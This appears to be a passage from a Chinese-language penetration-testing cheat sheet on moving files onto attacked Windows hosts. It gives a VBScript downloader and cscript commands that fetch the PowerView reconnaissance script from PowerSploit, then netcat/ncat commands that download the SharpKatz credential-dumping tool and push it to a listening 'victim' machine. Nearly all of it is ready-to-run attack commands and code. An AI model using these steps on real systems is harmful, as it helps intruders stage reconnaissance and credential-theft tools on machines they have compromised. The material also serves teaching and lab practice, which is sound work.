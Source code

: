 ```cmd-session
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

**VBscript**

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

```cmd-session
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## 5.4 使用其他方式传输文件

### 5.4.1 nc/netcat/ncat

（1)**反向连接：**被攻击机，侦听端口8000

```
nc -l -p 8000 > SharpKatz.exe
或ncat -l -p 8000 --recv-only > SharpKatz.exe
```

攻击机，传输文件

```
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
或ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```
